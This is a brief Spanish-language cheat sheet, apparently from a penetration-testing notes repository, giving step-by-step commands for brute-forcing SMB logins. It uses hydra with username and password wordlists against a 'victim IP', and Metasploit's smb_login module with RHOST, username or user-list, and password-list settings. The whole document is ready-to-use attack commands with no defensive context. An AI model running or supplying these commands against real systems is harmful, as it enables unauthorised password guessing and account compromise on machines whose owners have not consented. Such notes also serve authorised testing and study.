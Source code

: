 # HYDRA
## Conociendo usuario
```bash
hydra -l <"Usuario"> -P <"Diccionario de contraseñas"> smb://<"IP VICTIMA">
```

## Usuario Desconocido
```bash
hydra -L <"Diccionario de usuarios"> -P <"Diccionario de contraseñas"> smb://<"IP VICTIMA">
```

# Metasploit

```bash
search smb_login
```

```bash
use 0
```

```bash
set RHOST <"IP Victima">
```

## Conociendo Usuario

```bash
set USERNAME <"Usuario">
```
## Desconociendo Usuario

```bash
set USERNAME_FILE <"Diccionario de Usuarios">
```


```bash
set PASS_FILE <"Diccionario de Contraseñas">
```

```bash
set VERBOSE false
```

```bash
run
```